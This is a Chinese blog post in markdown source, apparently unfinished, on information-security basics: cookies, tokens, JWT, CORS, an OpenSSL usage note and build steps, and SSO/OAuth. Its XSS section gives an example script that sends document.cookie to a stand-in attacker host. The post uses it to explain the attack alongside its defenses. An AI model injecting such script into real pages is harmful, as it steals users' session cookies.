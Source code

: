 ```yaml
---
title: "信息安全-理论专栏"
date: 2023-10-26T16:17:36+08:00
categories:
- 计算机科学与技术
- 信息安全
tags:
- 信息安全
- 施工中
thumbnailImagePosition: left
thumbnailImage: /images/thumbnail/security.jpg
---
```

本文从原理出发，记录所有的信息安全中的加解密知识，库，实用工具。也包括鉴权、访问控制、抗抵赖相关知识。
<!--more-->

> 对于实际工程实施、命令应用内容，请查看文章[信息安全-工程实施专栏]({{<relref "/content/post/engineer/security.md">}})

## 基础假设
1. 从系统角度来说，任何应用都是不安全的，不应被信任的，因此不应给予超过必需部分的权限和数据。
2. 任何用户操作都是不安全的，不应被信任的，对输入要进行专门的检查。

## 基础术语
1. Web
    1. Cookie：用于在客户端存储一些用户信息的**小型文本文件**。一般用于实现Session会话，是Http协议应对无状态问题的一种解决方式。
        - 分类：
            - 第一方和第三方Cookie：第一方就是当前站点页面A的域名的Cookie，第三方是当前站点页面A内的第三方页面内容B（比如一个植入广告）专用的Cookie。可以用于分析页面之间的关系，比如记录用户广告点击来源，分析行为。
            - 会话Cookie、持久Cookie、安全Cookie、HttpOnly Cookie
        - 由服务器端实现会话时，服务器端相当于成为了有状态的服务。在设计上并不好，需要考虑容灾问题。
    2. Token：经过加密处理的**一段数据**。可存储在客户端浏览器缓存、localStorage、sessionStorage。服务器上存储在数据库中。移动端设备支持更好，支持跨程序调用。安全性、可扩展性、跨域支持能力都更强，更灵活。
        - 和Cookie存在多方面差异：安全性、可扩展性、跨域支持、对服务器压力、时效性。但和Cookie并不是并列关系，Token也可以存储在Cookie中。
        - Token完全由应用管理，设计上能支持服务器的无状态服务，即在Token中保存所有必须的用户数据。
        - 分类：Access Token（标识用户身份的令牌）、Refresh Token（用于刷新用户身份标识的专用令牌）
        - 实现方式：JWT（头部.负载.签名）描述了必须的元数据/数据字段/数字签名
        - 参考：[傻傻分不清之 Cookie、Session、Token、JWT](https://juejin.cn/post/6844904034181070861)、[JSON Web Token 入门教程](https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    3. User-Agent：浏览器等客户端向Http请求头中添加的字段，用于填写客户端的系统和软件信息。
    4. 跨域：一种和鉴权相关的安全策略问题。出现在浏览器语境下，是浏览器为了用户的安全性做出的策略。其目的在于通过控制跨域请求，来避免CRSF（跨站请求伪造）和XSS（跨站脚本攻击）
        - 网页发起跨域请求，需要前端（浏览器）和后端同时支持
        - 原理：
            - 简单请求：HEAD/GET/POST且请求头信息不超过允许的字段。浏览器会在请求头中自动添加Origin字段，并填充当前域名A。服务器接收到之后决定该域名A是否允许发起该跨域请求。并填充```Allow-Control-Allow-Origin```、```Allow-Control-Allow-Credentials```、```Access-Control-Expose-Headers```等字段。
            - 非简单请求：所有的其他请求，都会先发送预检请求OPTIONS，主要是询问服务器是否支持指定的请求方法和额外的请求头字段，即```Access-Control-Request-Method/Headers```。只有服务器允许，浏览器才会发送正式请求。
        > 从原理可以看出，CORS配置对后端有一定要求，如果对Origin的检查、以及各Allow字段配置不正确，都会造成CORS漏洞。
        - XHR请求是否携带Cookies在不同浏览器上不明确，最好手动设置
        - 参考：[网页攻击 和 跨域 的相关问题梳理](https://blog.csdn.net/s18813688772/article/details/121910084)、[CORS攻击原理介绍和使用](https://cloud.tencent.com/developer/article/1728658)

## 常见攻击手段 
1. Web
    1. XSS：跨站脚本攻击。最常见的方式是在一个用户可创作内容的网站中，插入一段可执行代码，完成指定动作。
        ```html
        <script>
            // new Image().src = "http://stole.you.cookie.com/save?c=" + encodeURI(document.cookie);
        </script>
        ```
        - 应对方式：
            - 对于Cookie的窃取，可以通过在Set-Cookie头中设置HttpOnly标识，禁止页面脚本获取Cookie。但这只是最基本的，实际上仍有HttpOnly绕过手段。
            - 检查用户输入，禁止其中的脚本执行
    2. 

## OpenSSL
- 注意点
    1. OpenSSL的风格是，内部结构**不导出**，因此对于```ECDSA_SIG```、```BIGNUM```等，不能直接通过成员访问操作符```->```来获取成员。正确的方式是使用相对应的API。例如
        ```c
            // 对ASN.1的DER编码进行解码
        	ECDSA_SIG* result = d2i_ECDSA_SIG(&sig, (const unsigned char**)&derData, derlen);
            // BIGNUM也是用BN_new获取
            const BIGNUM* pr = BN_new();
            const BIGNUM* ps = BN_new();
            // 对result->r和result->s的获取
            ECDSA_SIG_get0(result, &pr, &ps);
        ```
- Windows下的编译：
    - 步骤：
        1. 安装Perl
        2. ```mkdir your-build ; cd your-build```
        3. ```perl Configure VC-WIN64A no-asm --prefix=D:\path\to\install```，生成makefile等，更多[配置说明](https://wiki.openssl.org/index.php/Compilation_and_Installation)
        4. 调用Visual Studio的Native Tools Command Prompt，执行```nmake```
        5. ```nmake install```
    - 参考：[win10 x64 visual studio 2019 编译 OpenSSL-1.1.1](https://blog.csdn.net/qiuxue110/article/details/115560240)

## 鉴权
1. 单点登录SSO（Single Sign On）：在一个多应用系统中，提供一处登录处处登录，一处登出处处登出的效果。参考[单点登录解决方案](https://cloud.tencent.com/developer/article/1636664)。
    1. Cookie：
        - 不跨域：将多个应用的Session进行共享，并将其SessionId放到Cookie中交给客户端。可以实现不跨域（不跨顶级域）前提下的单点登录。
        - 跨域：通过引入CAS（Central Authentication Service）服务器，提供SSO会话。在访问应用时，会重定向到SSO会话服务，登录并提供SSO会话的Cookie，和为应用提供的Service Ticket。应用会去CAS服务器查验Service Ticket是否有效。
    2. OAuth：一种认证授权机制，通过在服务端和客户端之间增加一个授权层，来向第三方颁发令牌。它主要是为了用来提供不同系统之间API的授权服务（A应用想调用B应用的API接口）。当然也可以用于单点登录。参考[理解OAuth 2.0](https://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html)
        - 术语：第三方应用程序（企图获得API授权的程序）、服务提供商（API提供者）、资源所有者（用户）、用户代理（浏览器）、认证服务器（API提供者用于执行OAuth）、资源服务器（API提供者内部）
        - 流程：第三方应用程序访问授权层，在资源所有者控制下授权令牌（可指定范围和有效期），服务提供商根据令牌想第三方应用程序提供服务。
        - 模式：授权码模式（第三方服务器-服务提供商服务器）、简化模式（用户代理-服务器提供商服务器）、密码模式（直接给第三方密码）、客户端模式（第三方把自己视作用户）
    3. JWT（JSON Web Token）：JWT本身只是一种Token的实现方式，但同时这种方式能够很好的支持单点登录。用户在登录之后，会获取到认证服务生成的JWT，每次访问均携带JWT，由网关等对JWT进行核验。由于JWT本身并不一定加密（只是一定会做签名），所以需要搭配https，总之应当尽量保证JWT不被泄露。